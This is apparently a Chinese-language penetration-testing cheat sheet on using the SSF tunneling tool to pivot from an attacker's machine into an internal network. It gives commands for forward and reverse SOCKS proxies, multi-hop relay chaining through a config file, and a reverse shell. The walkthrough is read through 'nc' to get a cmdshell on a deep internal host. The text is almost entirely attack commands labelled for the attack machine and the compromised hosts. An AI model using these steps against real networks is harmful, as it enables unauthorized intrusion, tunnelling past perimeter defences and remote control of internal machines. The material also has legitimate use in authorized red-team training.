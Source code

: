 	https://github.com/securesocketfunneling/ssf/releases
  #### 正向socks代理
	边界机器执行：
	>ssfd.exe -p 1080 linux执行：./ssfd -p 1080
![image](img/350.png)

	攻击机执行：
	>ssf.exe -D 12138 -p 1080 192.168.0.98(边界机器IP)
![image](img/351.png)

	本机配置proxychain或proxifier
![image](img/352.png)
  #### 反向socks代理
	攻击机执行：
	>ssfd.exe -p 1080
![image](img/353.png)

	内网机器执行：
	>ssf.exe -F 12138 -p 1080 192.168.0.106(攻击机IP)
![image](img/354.png)
![image](img/355.png)
  #### 多级级联
	多级内网机执行：
	>ssfd.exe -p 1080 -c config.json
	Json文件加入字段
	"circuit": [ 
	{"host": "A中继机IP", "port":"1080"}, 
	{"host": "B中继机IP", "port":"1080"} 
	],
	所有中继机执行：
	>ssfd.exe -p 1080 -c config.json
	边界机器执行：
	>ssf.exe -c config.json -p 1080 多级内网机IP -X 12138
	边界机执行：
	>nc.exe 127.0.0.1 12138即可获得多级内网机cmdshell
  #### 反弹shell
	攻击机执行：
	>ssfd.exe -p 1080 -c config.json
![image](img/356.png)

	内网机器执行：
![image](img/357.png)

	攻击机执行：
	>nc 127.0.0.1 12138
![image](img/358.png)
